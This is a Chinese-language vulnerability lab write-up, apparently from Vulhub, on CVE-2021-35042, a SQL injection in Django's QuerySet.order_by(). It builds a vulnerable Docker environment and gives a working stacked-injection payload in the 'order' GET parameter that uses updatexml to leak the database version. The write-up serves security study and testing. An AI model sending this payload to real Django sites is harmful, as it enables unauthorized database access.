


# Django QuerySet.order_by() SQL 注入漏洞

# CVE-2021-35042

## 漏洞描述

Django 在 2021 年 7 月 1 日发布了一个安全更新，修复了在 QuerySet 底下的 order_by 函数中存在的 SQL 注入漏洞

参考链接:

- https://www.djangoproject.com/weblog/2021/jul/01/security-releases/

该漏洞需要用户可控 order_by 传入的值，在预期列的位置注入 SQL 语句。

## 环境搭建

Vulhub 执行如下命令编译及启动一个存在漏洞的 Django 3.2.4：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问 `http://your-ip:8000` 即可看到 Django 默认首页。

## 漏洞复现

访问页面 `http://your-ip:8000/vuln/`，在 GET 参数中构造 `order=-id`，会得到根据 id 降序排列的结果：

```
http://your-ip:8000/vuln/?order=-id
```



再构造 GET 参数 `order=vuln_collection.name);select updatexml(1, concat(0x7e,(select @@version)),1)%23` 提交，其中 `vuln_collection` 是 `vuln` 应用下的模型 `Collection`

```
http://your-ip:8000/vuln/?order=vuln_collection.name);select updatexml(1, concat(0x7e,(select @@version)),1)%23
```

成功注入 SQL 语句，利用堆叠注入获得信息：


